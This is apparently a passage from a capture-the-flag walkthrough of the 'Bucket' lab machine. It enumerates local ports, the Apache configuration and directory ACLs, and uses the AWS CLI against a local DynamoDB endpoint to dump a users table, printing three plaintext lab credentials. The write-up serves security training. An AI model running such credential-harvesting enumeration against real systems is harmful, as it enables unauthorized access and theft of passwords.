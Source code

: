 Checking local listening ports:
```
ss -lnpt

127.0.0.1:4566
127.0.0.1:44637
127.0.0.1:8000
```

Checking the **Apache2** enabled sites:
```
cat /etc/apache2/sites-enabled/000-default.conf | grep -v '\#' | grep .
```

The configuration shows that port 4566 forwards to port 80 and is the **Docker** container, where _s3.bucket.htb_ runs.
As checked before, it runs **S3** and **DynamoDB** as the database, that can also be enumerated with the AWS CLI:
```
aws --endpoint-url http://s3.bucket.htb dynamodb list-tables

{
    "TableNames": [
        "users"
    ]
}
```

Enumerating the tables _users_:
```
aws --endpoint-url http://s3.bucket.htb dynamodb scan --table-name users
```

It contains three different credentials and as the output is in JSON, it can be simplified to display the needed data:
```
aws --endpoint-url http://s3.bucket.htb dynamodb scan --table-name users | jq -r '.Items[] | "\(.username[]):\(.password[])"'

Mgmt:Management@#1@#
Cloudadm:Welcome123!
Sysadm:n2vM-<_K_Q:.Aa2
```

Port 8000 is listening only on localhost with the assigned user as root and the directory is in _/var/www/bucket-app_ where permissions for this user is denied:
```
ls -l /var/www/           

drwxr-x---+ 4 root root 4096 Feb 10  2021 bucket-app
```

The plus sign next to the permissions tells that this directory has extended permissions that can be checked with `getfacl`:
```
getfacl /var/www/bucket-app/

user::rwx
user:roy:r-x
group::r-x
mask::r-x
other::---
```
